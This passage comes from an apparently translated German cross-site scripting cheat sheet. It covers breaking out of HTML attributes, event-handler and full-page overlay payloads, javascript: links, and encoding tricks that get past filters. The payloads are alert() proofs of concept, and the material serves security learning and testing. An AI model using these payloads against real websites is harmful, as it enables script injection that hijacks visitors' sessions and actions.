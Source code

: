 ### Inside the tag/escaping from attribute value

Wenn Sie **innerhalb eines HTML-Tags** sind, ist das Erste, was Sie versuchen könnten, sich **aus dem Tag zu befreien** und einige der in der [vorherigen Sektion](./#injecting-inside-raw-html) erwähnten Techniken zu verwenden, um JS-Code auszuführen.\
Wenn Sie **nicht aus dem Tag entkommen können**, könnten Sie neue Attribute innerhalb des Tags erstellen, um zu versuchen, JS-Code auszuführen, zum Beispiel mit einem Payload wie (_beachten Sie, dass in diesem Beispiel doppelte Anführungszeichen verwendet werden, um sich aus dem Attribut zu befreien, Sie benötigen sie nicht, wenn Ihre Eingabe direkt im Tag reflektiert wird_):
```bash
" autofocus onfocus=alert(document.domain) x="
" onfocus=alert(1) id=x tabindex=0 style=display:block>#x #Access http://site.com/?#x t
```
**Stilereignisse**
```python
<p style="animation: x;" onanimationstart="alert()">XSS</p>
<p style="animation: x;" onanimationend="alert()">XSS</p>

#ayload that injects an invisible overlay that will trigger a payload if anywhere on the page is clicked:
<div style="position:fixed;top:0;right:0;bottom:0;left:0;background: rgba(0, 0, 0, 0.5);z-index: 5000;" onclick="alert(1)"></div>
#moving your mouse anywhere over the page (0-click-ish):
<div style="position:fixed;top:0;right:0;bottom:0;left:0;background: rgba(0, 0, 0, 0.0);z-index: 5000;" onmouseover="alert(1)"></div>
```
### Innerhalb des Attributs

Selbst wenn Sie **nicht aus dem Attribut entkommen können** (`"` wird kodiert oder gelöscht), je nachdem, **in welchem Attribut** Ihr Wert reflektiert wird **ob Sie den gesamten Wert oder nur einen Teil kontrollieren**, werden Sie in der Lage sein, es auszunutzen. Zum **Beispiel**, wenn Sie ein Ereignis wie `onclick=` kontrollieren, können Sie es dazu bringen, beliebigen Code auszuführen, wenn es angeklickt wird.\
Ein weiteres interessantes **Beispiel** ist das Attribut `href`, wo Sie das `javascript:`-Protokoll verwenden können, um beliebigen Code auszuführen: **`href="javascript:alert(1)"`**

**Umgehung innerhalb des Ereignisses mit HTML-Kodierung/URL-Kodierung**

Die **HTML-kodierten Zeichen** innerhalb des Wertes von HTML-Tag-Attributen werden **zur Laufzeit dekodiert**. Daher wird etwas wie das Folgende gültig sein (die Payload ist fett): `<a id="author" href="http://none" onclick="var tracker='http://foo?`**`&apos;-alert(1)-&apos;`**`';">Zurück</a>`

Beachten Sie, dass **jede Art von HTML-Kodierung gültig ist**:
```javascript
//HTML entities
&apos;-alert(1)-&apos;
//HTML hex without zeros
&#x27-alert(1)-&#x27
//HTML hex with zeros
&#x00027-alert(1)-&#x00027
//HTML dec without zeros
&#39-alert(1)-&#39
//HTML dec with zeros
&#00039-alert(1)-&#00039

<a href="javascript:var a='&apos;-alert(1)-&apos;'">a</a>
<a href="&#106;avascript:alert(2)">a</a>
<a href="jav&#x61script:alert(3)">a</a>
```
**Beachten Sie, dass die URL-Codierung ebenfalls funktioniert:**
```python
<a href="https://example.com/lol%22onmouseover=%22prompt(1);%20img.png">Click</a>
```
**Umgehung von Innenereignissen mit Unicode-Kodierung**
```javascript
//For some reason you can use unicode to encode "alert" but not "(1)"
```